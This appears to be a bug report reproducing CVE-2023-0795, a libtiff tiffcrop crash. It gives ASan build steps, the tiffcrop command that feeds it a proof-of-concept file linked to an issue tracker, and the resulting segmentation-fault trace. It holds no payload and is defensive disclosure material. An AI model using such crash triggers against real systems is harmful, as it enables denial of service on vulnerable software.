 # CVE-2023-0795

## POC URL
- https://gitlab.com/libtiff/libtiff/-/issues/493

## Steps to reproduce

```CFLAGS="-g -fsanitize=address -fno-omit-frame-pointer" CXXFLAGS="-g -fsanitize=address -fno-omit-frame-pointer" ./configure --prefix=$PWD/build_asan --disable-shared```

``` make -j; make install; make clean```

```$ ./build_asan/bin/tiffcrop -e multiple -z 1,1,2048,2048:1,2049,2048,4097 -R 270 -i poc /tmp/foo```

TIFFReadDirectoryCheckOrder: Warning, Invalid TIFF directory; tags are not sorted in ascending order.
TIFFFetchStripThing: Warning, Incorrect count for "StripOffsets"; tag ignored.
TIFFFetchStripThing: Warning, Incorrect count for "StripByteCounts"; tag ignored.
OJPEGSetupDecode: Warning, Deprecated and troublesome old-style JPEG compression mode, please convert to new-style JPEG compression and notify vendor of writing software.
OJPEGReadHeaderInfoSecTablesQTable: Missing JPEG tables.
: Strip 1: read -1 bytes, strip size 512.
OJPEGReadHeaderInfoSecTablesQTable: Missing JPEG tables.
: Strip 2: read -1 bytes, strip size 512.
OJPEGReadHeaderInfoSecTablesQTable: Missing JPEG tables.
: Strip 3: read -1 bytes, strip size 512.
OJPEGReadHeaderInfoSecTablesQTable: Missing JPEG tables.
: Strip 4: read -1 bytes, strip size 512.
OJPEGReadHeaderInfoSecTablesQTable: Missing JPEG tables.
: Strip 5: read -1 bytes, strip size 512.
OJPEGReadHeaderInfoSecTablesQTable: Missing JPEG tables.

OJPEGReadHeaderInfoSecTablesQTable: Missing JPEG tables.
AddressSanitizer:DEADLYSIGNAL
=================================================================
==145158==ERROR: AddressSanitizer: SEGV on unknown address 0x7f38d0600000 (pc 0x558347eee908 bp 0x7ffd71cf82a0 sp 0x7ffd71cf8230 T0)
==145158==The signal is caused by a READ memory access.
    #0 0x558347eee907 in extractContigSamplesShifted16bits /root/programs_latest/libtiff/tools/tiffcrop.c:3488
    #1 0x558347f04b44 in extractSeparateRegion /root/programs_latest/libtiff/tools/tiffcrop.c:6944
    #2 0x558347f08a94 in processCropSelections /root/programs_latest/libtiff/tools/tiffcrop.c:7835
    #3 0x558347eeabb1 in main /root/programs_latest/libtiff/tools/tiffcrop.c:2511
    #4 0x7f38d3b3b082 in __libc_start_main ../csu/libc-start.c:308
    #5 0x558347ee160d in _start (/root/programs_latest/libtiff/build_asan/bin/tiffcrop+0x2e60d)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /root/programs_latest/libtiff/tools/tiffcrop.c:3488 in extractContigSamplesShifted16bits
==145158==ABORTING


## Platform

uname -a
Linux dd189b3c7b86 5.15.0-52-generic #58~20.04.1-Ubuntu SMP Thu Oct 13 13:09:46 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux